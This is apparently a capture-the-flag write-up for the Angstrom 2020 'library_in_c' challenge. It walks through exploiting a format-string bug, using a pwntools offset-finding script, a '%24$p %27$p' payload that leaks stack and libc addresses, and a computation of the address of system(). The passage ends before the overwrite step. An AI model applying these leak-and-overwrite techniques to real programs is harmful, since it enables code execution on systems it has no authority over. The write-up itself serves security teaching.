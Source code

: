 ### Argument find

In order to exploit this, we first need to find the order of argument, which we can use to refer to the start of our buffer. Since the executable is 64bit, it will take arguments as quad words from the stack. I wrote a simple script which uses `glibc`'s `i$` notation to refer to the `i`-th argument and print it as a hexadecimal quadword:

```python
from pwn import * 

for i in range(1,256):
    r = process('./library_in_c')
    r.sendline(f'AAAAAAAA %{i}$p')
    s = r.recv()
    print(f'{i} => {s}')
```


```bash
root@kali:~/CTFs/Angstrom2020/pwn/library_in_c# python3 discover.py | grep '0x4141'
8 => b'Welcome to the LIBrary in C!\nWhat is your name?\nWhy hello there AAAAAAAA 0x4141414141414141\nAnd what book would you like to check out?\n'
```
Then I slightly modified it for the second `printf` call.  

```bash
root@kali:~/CTFs/Angstrom2020/pwn/library_in_c# python3 discover.py | grep '0x4141'
16 => b"Your cart:\n - AAAAAAAA 0x4141414141414141\n\nThat's great and all but uh...\nIt turns out this library doesn't actually exist so you'll never get your book.\nHave a nice day!\n"

```

So now I know, that first quadword(8 bytes) of my buffer is stored as 8th(16th) argument for the first (second) `printf` call. Next 8 bytes are the 9th(17th) argument. We will use this when overwriting.

### stack and libc leak

In this part I will explain how I leaked the `libc` and `stack` addreses.

Our vulnerable `printf` calls are in `main` function. Main is initiated from `__libc_start_main` function, which is a part of `libc`. We will use the fact that the return adress for `main`, stored further on the stack, is address to `__libc_start_main`. This address is stored as 
27th argument for our `printf` call. I also wanted to leak some reliable `stack` address. After some debugging, I chose the address corresponding to 24th argument.

Thus my first payload that leaks addresses looks as follows:

```python
payload_leak = '%24$p %27$p'
```

This payload gets us two addresses that we need to further process to get the ones that we desire. To get the address of system in current process memory, we do the following.

```python
libc_address = libc_leak - 0xf0 - libc.symbols['__libc_start_main']
libc_system = libc_address + libc.symbols['system']
```
